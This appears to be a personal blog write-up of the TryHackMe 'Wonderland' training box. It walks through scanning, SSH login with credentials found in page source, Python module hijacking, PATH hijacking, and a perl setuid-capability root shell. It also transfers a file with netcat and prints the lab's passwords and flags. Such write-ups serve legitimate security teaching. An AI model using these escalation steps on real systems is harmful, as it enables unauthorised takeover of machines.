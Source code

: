 ```yaml
---
title: TryHackMe - Wonderland
description: My writeup on Wonderland box.
categories:
 - tryhackme
tags: tryhackme gobuster python hijacking PATH capabilities perl
---
```


![](https://i.imgur.com/DECYWDh.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **Wonderland**  |
| Difficulty :  | **Medium**             |
| Play :    | [Wonderland](https://tryhackme.com/room/wonderland){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

This is a box that tought me some new things, i really enjoyed pwning it! Getting shell is the easy part, then we have to deal with multiple privilege escalations. The first 2 are about hijacking and then last one is about capabilities. Let's start!

## Enumeration/Reconnaissance

Now as always let’s continue with a nmap scan.

```
$ ip=10.10.210.206
$ nmap -sC -sV -oN nmap/wonderland.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-04 23:05 EET
Nmap scan report for 10.10.210.206 (10.10.210.206)
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
```

Once we visit the web page we see a message `Follow the White Rabbit.`. Checking the source code nothing interesting, let's fire up a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w $medium -x php,txt,html,js -o scans/gobuster.txt  
/index.html (Status: 301)
/img (Status: 301)
/r (Status: 301)
```

Visiting the `/r` directory we see a message `Keep Going.`, then i guessed the whole path. Before the message said `Follow the White Rabbit.` So:

```
http://10.10.210.206/r/
http://10.10.210.206/r/a/
http://10.10.210.206/r/a/b/
http://10.10.210.206/r/a/b/b/
http://10.10.210.206/r/a/b/b/i/
http://10.10.210.206/r/a/b/b/i/t
```

## Shell as alice

Here we go, checking the source code i found some credentials `alice:HowDothTheLittleCrocodileImproveHisShiningTail`. We can use them with SSH.

```
$ ssh alice@$ip
alice@10.10.210.206's password:

alice@wonderland:~$ whoami;id
alice
uid=1001(alice) gid=1001(alice) groups=1001(alice)
```

## Shell as rabbit

While doing my manual enumeration for privesc i found on `sudo -l` that we can run a python file as user rabbit.

```
alice@wonderland:~$ sudo -l
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Sadly we can't edit it.

```
alice@wonderland:~$ ls -la walrus_and_the_carpenter.py
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
```

Here i stuck for a long time, source code has nothing interesting only a poem. I noticed the `random` module so i googled `python random module privilege escalation` and i found out the solution this privesc is about python library hijacking.

Running this command:

```
alice@wonderland:~$ python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
```

Show us the list of directories that python looks in when importing modules. The first one `''` is the current directory.

So we will create a new file in the same directory as the `walrus_and_the_carpenter.py`, named `random.py` because it imports `random`. So the next time we run the file will load our version of the random module, because it appears first in the search paths.

```
alice@wonderland:~$ touch random.py
alice@wonderland:~$ printf "import os\nos.system('/bin/bash')" >> random.py
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
[sudo] password for alice:
rabbit@wonderland:~$ whoami;id
rabbit
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

## Shell as hatter

Moving to rabbit directory, i see a binary `teaParty` when we run it just says a message:

```
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Mon, 04 Jan 2021 22:38:19 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

Let's move it to our machine to analyze it, we can do that using netcat!

On our box we execute this -> `nc -l -p 5555 > teaParty`

On target box we send the file -> `nc -w 3 $your_tun0_ip 5555 < teaParty`

Running `strings` on it we can see that it executes `date`:

```
$ strings teaParty | grep date
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

We can see it calls date without specifying the path. This means we can hijack the PATH and execute our date. We will make a `date` file with `/bin/bash` in and then we will change the PATH to look in our directory first, so it will execute our `date` file first.

```
rabbit@wonderland:/home/rabbit$ echo "/bin/bash" > date
rabbit@wonderland:/home/rabbit$ chmod 777 date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by
hatter@wonderland:/home/rabbit$ whoami;id
hatter
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```

Checking hatter's directory i found his password, so we can login using SSH as hatter.

```
hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?
```

```
$ ssh hatter@$ip
hatter@10.10.85.152's password:

hatter@wonderland:~$ whoami;id
hatter
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
```

## Shell as root

This final privesc is about capabilities. Capabilities are similar to SUID but they limit user’s permissions etc.

Let's scan the system for capabilities.

```
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

We can see `perl` has the `CAP_SETUID` capability this mean we can change the UID. [GTFOBINS](https://gtfobins.github.io/gtfobins/perl/#capabilities){:target="_blank"} has the answer.

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami;id
root
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

Let's read the flags. (They're reversed LOL)

```
# cat /root/user.txt
thm{"Curiouser and curiouser!"}
# cat /home/alice/root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
